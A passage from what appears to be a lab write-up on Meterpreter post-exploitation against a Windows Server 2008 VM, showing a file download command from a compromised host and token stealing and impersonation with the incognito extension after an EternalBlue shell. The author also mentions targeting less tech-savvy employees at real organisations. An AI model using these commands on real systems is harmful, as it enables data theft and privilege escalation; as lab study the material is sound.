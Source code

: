 2. Download files with `download c:\\java0.log /home/kali/Desktop`

![Meterpreter-Download-file](Meterpreter-Download-file.png)

## 2. Privilege Escalation In Meterpreter

When targeting real organisations I will be most likely targeting employees that aren't the most tech-savy to gain either a reverse or bind shell, this is great to get access inside a network but I won't have the level of access to perform administrative commands which is game over for a target.

1. To increase my privilege on the win2k8 vm machine I will use the `priv` extension provided within Meterpreter

### 2.1 Token Stealing and Impersonation 
When an admin remotely accesses a host this creates a token like a footprint of their past login activity, if found on a compromised host within a Meterpreter shell it can be used to escalate our privilege

1. With a MSF eternalblue meterpreter shell, run `use incognito` to get extra commands followed by `list_tokens -u`
![Token-Stealing-Meterpreter](Token-Stealing-Meterpreter.png)

2. I then logged into the win2k8 lab administrator account and impersonated the token with `impersonate_token "VAGRANT-2008R2\Administrator"`

![Get-Stolen-Token](Get-Stolen-Token.png)
